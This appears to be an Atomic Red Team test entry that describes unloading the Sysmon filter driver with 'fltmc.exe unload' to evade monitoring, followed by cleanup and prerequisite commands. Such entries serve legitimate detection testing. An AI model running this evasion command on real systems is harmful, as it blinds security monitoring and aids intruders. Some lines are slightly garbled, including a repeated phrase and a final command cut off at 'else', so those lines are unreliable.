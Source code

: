 



<br/>
<br/>

## Atomic Test #11 - Unload Sysmon Filter Driver
Unloads the Sysinternals Sysmon filter driver without stopping the Sysmon service. To verify successful execution, o verify successful execution,
run the prereq_command's and it should fail with an error of "sysmon filter must be loaded".

**Supported Platforms:** Windows


**auto_generated_guid:** 811b3e76-c41b-430c-ac0d-e2380bfaa164





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| sysmon_driver | The name of the Sysmon filter driver (this can change from the default) | string | SysmonDrv|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
fltmc.exe unload #{sysmon_driver}
```

#### Cleanup Commands:
```cmd
sysmon -u -i > nul 2>&1
sysmon -i -accepteula -i > nul 2>&1
"PathToAtomicsFolder\..\ExternalPayloads\Sysmon\Sysmon.exe" -u > nul 2>&1
"PathToAtomicsFolder\..\ExternalPayloads\Sysmon\Sysmon.exe" -accepteula -i > nul 2>&1
```



#### Dependencies:  Run with `powershell`!
##### Description: Sysmon must be downloaded
##### Check Prereq Commands:
```powershell
if (-not (cmd.exe /c "where.exe Sysmon.exe 2> nul | findstr Sysmon 2> nul") -or (Test-Path "PathToAtomicsFolder\..\ExternalPayloads\Sysmon\Sysmon.exe")) { exit 0 } else { exit 1 }
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
Invoke-WebRequest "https://download.sysinternals.com/files/Sysmon.zip" -OutFile "PathToAtomicsFolder\..\ExternalPayloads\Sysmon.zip"
Expand-Archive "PathToAtomicsFolder\..\ExternalPayloads\Sysmon.zip" "PathToAtomicsFolder\..\ExternalPayloads\Sysmon" -Force
```
##### Description: sysmon must be Installed
##### Check Prereq Commands:
```powershell
if(sc.exe query sysmon | findstr sysmon) { exit 0 } else { exit 1 }
```
##### Get Prereq Commands:
```powershell
if(cmd.exe /c "where.exe Sysmon.exe 2> nul | findstr Sysmon 2> nul") { C:\Windows\Sysmon.exe -accepteula -i } else
```